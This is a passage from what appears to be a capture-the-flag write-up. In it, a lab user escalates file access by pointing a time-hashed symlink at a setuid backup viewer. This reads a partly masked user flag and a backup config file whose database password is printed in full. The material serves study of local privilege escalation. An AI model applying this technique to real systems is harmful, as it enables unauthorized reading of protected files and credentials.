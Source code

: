 ```
DISTRIB_DESCRIPTION="Ubuntu 18.04.4 LTS"

```

I can also read a file I couldn’t read before, `user.txt`:

```

chiv@forwardslash:~$ ln -s /home/pain/user.txt $(date | cut -d' ' -f4 | tr -d $'\n' | md5sum | cut -d' ' -f1); backup
----------------------------------------------------------------------
        Pain's Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet, 
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 09:34:47
db0e0420************************

```

### Reading as pain

Checking out the other files owned by pain that chiv can’t read, `/var/backups/config.php.bak` had interesting data:

```

chiv@forwardslash:~$ ln -s /var/backups/config.php.bak $(date | cut -d' ' -f4 | tr -d $'\n' | md5sum | cut -d' ' -f1); backup
----------------------------------------------------------------------
        Pain's Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet, 
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 09:35:53
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>

```
